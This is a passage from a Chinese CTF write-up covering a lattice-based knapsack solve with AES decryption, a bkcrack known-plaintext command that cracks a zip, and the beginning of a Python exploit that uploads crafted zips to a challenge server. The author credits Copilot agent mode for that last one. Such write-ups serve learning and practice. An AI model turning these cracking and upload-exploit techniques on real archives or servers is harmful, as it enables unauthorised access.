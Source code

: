 ```python title="solve.py" collapse={5-9}
b = 34962396275078207988771864327
ciphertext = b'Lo~G\xf46>\xd609\x8e\x8e\xf5\xf83\xb5\xf0\x8f\x9f6&\xea\x02\xfa\xb1_L\x85\x93\x93\xf7,`|\xc6\xbe\x05&\x85\x8bC\xcd\xe6?TV4q'
# fmt:on

M = identity_matrix(len(a) + 1).augment(vector(a + [-b]))
M = (2 * identity_matrix(len(a))).augment(vector(a)).stack(vector([1] * len(a) + [b]))
M[:, -1] *= 2**8
L = M.LLL()
L = L.BKZ(block_size=35)
for row in L:
  if row[-1] == 0 and all(abs(x) <= 1 for x in row[:-1]):
    res = "".join(str(abs(x - 1) // 2) for x in row[:-1])[::-1]
    print(res)
    break

p = int(res, 2)
key = hashlib.sha256(str(p).encode()).digest()
cipher = AES.new(key, AES.MODE_ECB)
print(cipher.decrypt(ciphertext))
```

## Misc

### 提前放出附件

没记错的话题面是在cue今年国赛的半决赛？记得当时放出附件之后我一直在尝试明文攻击(虽然没成功)

回到这题，zip里是个tar。本地打包了个tar发现对于打包了单个文件的tar文件，tar的前x字节是tar里的文件名+0填充。这里我猜了一手tar里的文件名是`flag.txt`，那么tar文件的前12字节就是`666c61672e74787400000000`，`bkcrack`一把梭。

`bkcrack -C 162319_misc-public-ahead.zip  -c flag.tar -x 0 666c61672e74787400000000 -U dec.zip ""`

> 当然，都用-x指定偏移了其实不猜文件名也行，不过我就是喜欢猜（

### *v我50(R)MB

[@cheng_xing](https://sakuraraindrop.github.io/)做的，听说是什么`请求走私`，之后复现看看。

### *PNG Master

主要是[@cheng_xing](https://sakuraraindrop.github.io/)在看，我只负责zsteg一把梭，识别出几段base64+zlib里藏的压缩包然后交给他。

## Web
### ez_bottle

完全没看，Copilot开Agent模式一把梭的。

```python title="solve.py"
import io, re, zipfile, requests

BASE = "http://challenge.xinshi.fun:31675"

def upload_zip(bytes_):
    r = requests.post(f"{BASE}/upload", files={"file": ("poc.zip", bytes_, "application/zip")}, timeout=10)
    r.raise_for_status()
    # 从 “访问: /view/<md5>/<first_file>” 里抓 md5
    m = re.search(r"/view/([0-9a-f]{32})/", r.text)
    if not m:
        raise RuntimeError("未从返回中解析出 md5")
    return m.group(1), r.text

def build_zip_single(name, content):
```